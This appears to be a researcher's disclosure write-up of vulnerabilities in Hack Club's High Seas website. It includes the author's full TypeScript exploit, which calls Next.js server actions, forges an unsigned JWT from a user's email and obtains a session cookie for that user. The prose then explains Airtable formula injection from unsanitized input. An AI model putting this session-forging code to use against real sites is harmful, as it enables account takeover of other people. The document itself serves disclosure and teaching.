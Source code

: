 This is the original code I used to exploit the second vulnerability:
```typescript
async function generateToken(id: string) {
	const params = (action: string, args: any[]) => {
		return {
			"headers": {
				"accept": "text/x-component",
				"content-type": "text/plain;charset=UTF-8",
				"next-action": action
			},
			"body": JSON.stringify(args),
			"method": "POST"
		}
	};
	const encode = (input: string) => {
		let unencoded = new TextEncoder().encode(input)
		const CHUNK_SIZE = 0x8000
		const arr = []
		for (let i = 0; i < unencoded.length; i += CHUNK_SIZE) {
			// @ts-expect-error
			arr.push(String.fromCharCode.apply(null, unencoded.subarray(i, i + CHUNK_SIZE)))
		}
		return btoa(arr.join('')).replace(/=/g, '').replace(/\+/g, '-').replace(/\//g, '_')
	}

	// src/app/utils/airtable.ts : getSelfPerson
	const personRes = await fetch("https://highseas.hackclub.com/", params("fdfebd3d5565f8459d07200b9c50d7d6ab4dec39", [id])).then(r => r.text());
	const person = JSON.parse(`{"id":"` + personRes.split("\n").map(x => x.substring(x.indexOf(":") + 1))[1].split(`{"id":"`)[1]);
	const jwt = `.${encode(JSON.stringify({ sub: id, person: person.fields.email, }))}.`;
	// src/app/utils/auth.ts : createSlackSession
	const sessionRes = await fetch("https://highseas.hackclub.com/", params("f0e8ca9e5e71bfe94ec69fa168a7b6973d66134b", [jwt]));

	// @ts-expect-error
	return decodeURIComponent(sessionRes.rawHeaders["set-cookie"].split(";")[0].split("=")[1])
}
```

I then shared this code with @FoxMoss who continued on and created the lookup injection.

I was made aware that there was issues with the High Seas code in the afternoon of January 1st. Not many replication details, I did however get the code to request arbitrary NextJs actions that @r58 had wrote. So after their vulnerability was patched I started to comb through the code base. First thing I noticed was unescaped requests to this tool called [Airtable](https://github.com/hackclub/high-seas/blob/a73b9a864c36c3831142efa7967e582e3777e5b6/src/app/utils/airtable.ts#L17) for grabing user data. I had never heard of Airtable especially for databases, and thats for good reason. **Airtable is not a database**, it's a fancy spreadsheet for business automation. Airtable did expose an API for requests, but it has [no standard way of sanitizing requests](https://community.airtable.com/t5/development-apis/standard-way-to-prevent-formula-injections-when-using-airtable/td-p/121261/page/2). This is bad because Hack Club passes unchecked user data right into into Airtable formulas multiple times.  
